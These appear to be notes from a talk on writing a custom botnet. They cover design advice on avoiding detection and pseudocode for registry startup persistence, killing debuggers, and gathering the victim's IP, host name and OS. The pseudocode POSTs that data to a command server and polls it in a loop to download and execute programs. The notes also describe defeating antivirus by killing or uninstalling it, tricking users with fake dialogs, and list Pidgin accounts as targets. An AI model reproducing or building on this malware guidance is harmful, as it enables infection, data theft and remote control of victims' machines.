 Bot formats:
http bots (generic webserver where controls done via web interction)
irc bot (controlled via irc, command line only)

Language:
c++ (no dependencies, efficient)
c# (ubiqutous and easier to run it with, nothing wrong with it)

Fundamental Aspects About Botnets
- patterns
- default configs
- update ability
- ability to be silent
- buyers or people are inevitably stupid

patterns in malware: 
default config: either gotta have an installer (no default password) or random password generation
update: going to be bugs, exploits
silent: problems getting infections cuz people will uninstall it

why custom botnets?
no need for updates
easy bug & security fixes
researchers start from scratch
minimize detection and classification of being called 'malicious'

Tools of the trade
virtual machines
brain
experience

Feature Check List
anti-vm
anti-sandbox
anti-debugger
startup keys
checking processes

not covered:
l33t zer0 days
advanced botnet features

How he did it:

startup method:
-move file to a new file
-modify windows registry
-now it works on startup!
-make it works on windows notify \& run

anti-debugger: (to slow down researchers)
\$process = "ImmunityDebugger.exe"
if ProcessExists(\$process) then:
    processclose(\$process)
endif

Information Gathering
\$ip = @IPAddress1 
\$name = @ComputerName
\$os = @OSVersion

Send Back Home
\$serverData = 'ip=' \& ip \& 'computer=' \& \$name \& 'os=' \& \$os
\$OHttp = ObjCreate("winhttp.winhttprequest.5.1")
\$OHttp.open("POST", "http://192.168.1.2/work/opbotnet/accept.php", False)
\$OHttp.SetRequestHeader....
\$OHttp.Send(\$serverData)

Every piece of malware has a while loop to phone back home periodically
while 1 {
    \$command = InetRead("http://192.168.1.2/work/opbotnet/command.php")
    \$process = BinaryToString(\$command)
    \$commandValue = split(\$process, ".")
    if \$commandValue[1] == "dl" then
        // download the command to execute to a certain directory
        ShellExecute(the program)
    end
    sleep 10000
}

Finally you put it on "NoDistribute" and check if any of the antiviruses already detect it.

Making it even better

Anti-anti-virus
- write a function called avcheck that checks whether anti viruses are there
- you can check the registry or you can check directories under Program files.  the latter is less malicious and the former can run into problems.
- then you can try uninstalling anti-virus or killing the process
- for admin privileges, you could pop up a magic box with the logo on it and trick the user into uninstalling it himself
- avenue of attack kind of depends on the antivirus; deleting registry first is nicer but sometimes risky


Things you can attack
-pidgin accounts

